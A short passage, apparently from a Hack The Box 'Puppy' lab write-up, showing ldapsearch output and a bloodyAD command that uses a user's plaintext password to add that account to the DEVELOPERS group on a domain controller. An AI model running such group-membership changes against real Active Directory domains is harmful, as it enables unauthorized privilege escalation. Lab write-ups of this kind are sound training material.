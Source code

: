 # search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 14
# numEntries: 10
# numReferences: 3

┌──(kali㉿kali)-[~]
└─$ bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james 
[+] levi.james added to DEVELOPERS
                                                                                                          
┌──(kali㉿kali)-[~]
